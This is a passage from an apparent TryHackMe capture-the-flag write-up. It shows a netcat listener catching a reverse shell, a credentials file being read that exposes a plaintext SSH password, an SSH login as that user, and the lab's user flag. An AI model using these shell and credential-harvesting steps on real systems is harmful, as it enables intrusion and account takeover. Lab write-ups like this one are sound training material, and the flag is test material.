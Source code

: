 **_NOTE_** _: This route comes under the directory_ **_/upload-cv00101011_**

![](https://miro.medium.com/v2/resize:fit:700/1*HtKPKFr9cjnO3qhviOqLXQ.png)

# **Let’s get a shell on this machine…**

Lets Setup a netcat listener and navigate to the file that we uploaded.

Looking at the netcat listener we can see that we got a shell.

```
~ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.42.185] from (UNKNOWN) [10.10.222.102] 42422
Linux ip-10-10-222-102 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 01:01:50 up 36 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 2: python: not found
$ cd /home
$ ls
ubuntu
zeamkish
$ cd zeamkish
$ ls -l
total 8
-rw-r----- 1 zeamkish zeamkish 27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish 34 Jun 11  2023 ssh_creds.txt
$ cat flag.txt
cat: flag.txt: Permission denied
```

After gaining into the machine, we see we can get into the zeamkish directory. We don't have permission. How about the ssh_creds.txt. Let us find out

```
$ cat ssh_creds.txt
SSH CREDS
zeamkish
easytohack@123
```
That would be a password: ``easytohack@123``
Let's try and use that and login into zeamkish account

``ssh zeamkish@10.10.222.102``
```
zeamkish@ip-10-10-222-102:~$ ls -l
total 8
-rw-r----- 1 zeamkish zeamkish 27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish 34 Jun 11  2023 ssh_creds.txt
zeamkish@ip-10-10-222-102:~$ cat flag.txt 
THM{USER_FLAG_1231_EXPOSE}
```
